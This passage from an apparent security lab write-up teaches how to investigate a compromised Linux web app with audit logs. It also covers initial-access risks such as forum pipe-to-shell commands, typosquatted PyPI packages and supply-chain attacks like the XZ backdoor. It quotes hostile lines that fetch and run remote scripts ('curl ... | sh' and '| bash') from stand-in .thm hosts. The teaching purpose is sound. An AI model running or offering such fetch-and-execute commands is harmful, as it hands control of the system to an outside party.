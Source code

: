 → `whoami` was executed by a **Python web app**, suggesting a possible **service breach**.

---

### 🔎 Searching for Child Processes

```bash
ausearch -i --ppid 3898 | grep 'proctitle'
type=PROCTITLE : proctitle=/bin/sh -c whoami
type=PROCTITLE : proctitle=/bin/sh -c curl http://17gs9q1puh8o-bot.thm | sh
```

This reveals that the attacker used the web app to execute a malicious script — confirming exploitation.

---

## 🧑‍💻 Advanced Initial Access

### 🧍 Human-Led Attacks

| Scenario Example                                                                    | Consequence                                                                                                               |                                                                                                                                         |
| ----------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| IT member runs `curl [https://shadyforum.thm/fix.sh](https://shadyforum.thm/fix.sh) | bash` from a forum                                                                                                        | Installs hidden malware ([Read more](https://www.schneier.com/blog/archives/2022/11/an-untrustworthy-tls-certificate-in-browsers.html)) |
| Developer mistypes `pip3 install fastpi` instead of `fastapi`                       | Installs malicious PyPI package ([Real case](https://thehackernews.com/2025/03/malicious-pypi-packages-stole-cloud.html)) |                                                                                                                                         |

---

### 🧰 Supply Chain Compromise

See: [MITRE ATT&CK T1195](https://attack.mitre.org/techniques/T1195/)

Examples:

* [XZ Utils Backdoor](https://www.akamai.com/blog/security-research/critical-linux-backdoor-xz-utils-discovered-what-to-know) — nearly compromised millions of SSH servers
* [tj-actions Breach](https://www.cisa.gov/news-events/alerts/2025/03/18/supply-chain-compromise-third-party-tj-actionschanged-files-cve-2025-30066-and-reviewdogaction) — leaked thousands of SSH keys and tokens

---

## 🧩 Detecting the Attacks

<img width="1388" height="292" alt="image" src="https://github.com/user-attachments/assets/a4127209-e43f-46b9-a1ed-dfc659304f19" />


---

### 💡 Summary

* Weak SSH configurations = easy entry
* Analyze successful logins first
* Watch for abnormal web and process activity
* Always validate app behavior and dependencies


